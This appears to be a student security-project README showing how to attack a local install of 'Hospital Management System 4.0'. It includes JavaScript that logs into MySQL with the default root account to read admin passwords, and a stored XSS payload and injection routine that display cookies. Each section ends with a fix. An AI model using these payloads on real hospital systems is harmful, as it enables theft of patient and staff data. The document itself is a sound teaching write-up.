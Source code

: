 # Information Security Project

List of content:
 - Introduction
 - Hospital Management System 4.0
 - Vulnerabilities
    - No security modifications on database
    - XSS attacks
- Damages


 ## Introduction
 The aim of this project is to show how to hack the "Hospital Management System 4.0" whit basic knowledge of:
 - HTML
 - JavaScript
 - MySql
 - XSS-Attacks
To see how to get started please have a look at the "instructions.md" file.


## Hospital Management System 4.0
phpgurukul:
> Hospital Management System is a web application for the hospital which manages doctors and patients.

The sofware is based on php and uses a My SQL database.
The software offers 3 different modules which are the following:
- Admin module
- User module
- Doctor module

Each module has access to different tasks which are important for every hospital.
One of the most importan tasks is the ability to store personal informations of each patient.
This data is the most interesting data for hackers.

## Vulnerabilities of the Software

### No security modifications on database
We already encounter the first vulnerability in the software when we set up the software. 
As you may have noticed, you were not asked to change the security settings at any stage of 
the database setup. So it is possible for everyone on the installation server to read the database 
data with simple SQL scripts.
Due to this security hole it is possible to perform any action, e.g. change the admin password, 
read out the patient data or delete the entire data. 
To perform such actions it is sufficient to connect to the database with the standard authentication data:
- Username: "root"
- Password: ""

#### Examples from project

##### Create database connection
The following piece of code shows how to create a databse connection in javaScript.
All you need to know for this are the standard authentication data and the name of the 
database which we know already from the setup.
``` javaScript
function getDatabaseConnection() {
	const mysql = require('mysql');

	return mysql.createConnection({
		host: "localhost",
		user: "root",
		password: "",
		database: "hms"
	});
}
```
##### Execute a SQL query
The following code shows how to execute a SQL query.
In addition to it if the flag "open" is set to true it opens
the browser with the link to one of the vulnerable sites.
An example for a query could be:
"SELECT password FROM admin".
``` javaScript
function executeQuery(sql, open = false) {
	const con = getDatabaseConnection();
	con.connect(function (err) {
		if (err) console.log("There went somthing wrong! Please try again!", newLine);
		con.query(sql, function (err, result) {
			if (err) console.log("There went somthing wrong! Please try again!", newLine);
			if (open) {
				var opn = require('opn');
				opn('http://localhost/hospital/hms/admin/doctor-specilization.php');
			}
			else
				console.log(result)
			main();
		});
	});
}
```
#### Solution
The solution to this problem is quit simple.
It would be enough to show the user how to set up the security settings of the databse
and how to change this settings also in the given php project.
An other solution would be to provide a service which sets up the environment for the client.

### XSS Attacks
Most of the input fields of the software are vulnerable to XSS attacks.
One of this fields is the field "doctorspecilization". Using basic knowledge of XSS attacks, html tables and javaScript
you are able to add a XSS atack to the database.
Here is an example of what you need to enter: ```</td><script>alert("Hello! I am a XSS attack")<script><td>````

#### Why does this work?
First of all it works because there is no check on the backend site for the input values.
The piece of code we see above works because a simple html table is used to display the list of doctor specilizations.
- ```</td>```closes the cell of the table.
- ```<script></script>``` allows you to execute javaScript.
- ```alert("Hello! I am a XSS attack")``` shows a small popup with the message "Hello! I am a XSS attack".
- ```<td>``` opens the next cell of the table to avoid an html parsing error.

#### Examples from project
Unfortunately my javaScript basics were not good enough to create a valid HTTP request of type "POST".
This request always ended with the server not giving me a response after I added parameters to the request. 
This could be security measures of the tested software or a bug on my part.
To automate the part of the XSS attack I used the vulnerabilities of the database and wrote the attack directly 
into the database. This is similar to the procedure you would enter in the application itself. 

The following code asks the user to make a few decisions first. These decisions will determine how exactly the XSS 
attack looks like. Then the XSS attack is assembled according to the user's wishes and written to the database using 
the functions we have already seen in the previous section. This makes it possible to display the cookies, for example.  

``` javaScript
function addXSS() {
	askForInput();
	showXSSOutputOptions();
	const outputFun = readUserInput("Please enter the output function you want to use");
	const outputMsg = readUserInput("Please enter the message you want to show or type 'cookie' if you want to see the cookies: ");
	let msg;
	let query;
	switch (outputFun) {
		case "1":
			msg = outputMsg == "cookie" ? "document.cookie" : outputMsg;
			query = `INSERT INTO doctorspecilization (specilization) VALUES ('</td><script>alert(${msg});</script><td>')`;
			executeQuery(query, true);
			break;
		case "2":
			msg = outputMsg == "cookie" ? "document.cookie" : outputMsg;
			query = `INSERT INTO doctorspecilization (specilization) VALUES ('</td><script>console.log(${msg});</script><td>')`;
			executeQuery(query, true);
		break;
		default:
			console.log("Please enter a valid input!");
			addXSS();
			break;
	}
}
```

#### Solution
To prevent a XSS attack on input fields you have to sanitize the input of the user.
You also have to be attention where you put this input because even if you filter the 
input of the user there is no sanitazion method which is able to prevent to all XSS attacks.
One of the functions you have to remember when creating a php project with user input is
```htmlspecialchars()```. This function will convert special characters into HTML entities.
Another useful function is ```addslashes()```. This function adds a slash in attempt to prevent 
an attacker from terminating the variable assignment and appending executable code.

These are just a few basic precautions that are usually not sufficient to prevent XSS attacks. 
A very detailed description how to prevent XSS attacks can be found [here](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html).

### Damages
A hacker attack on hospital software would naturally have serious consequences. The database contains 
private information of patients and hospital staff. Furthermore, the patients' appointments are also 
managed by this software. Such data is strictly confidential and should never fall into the wrong hands.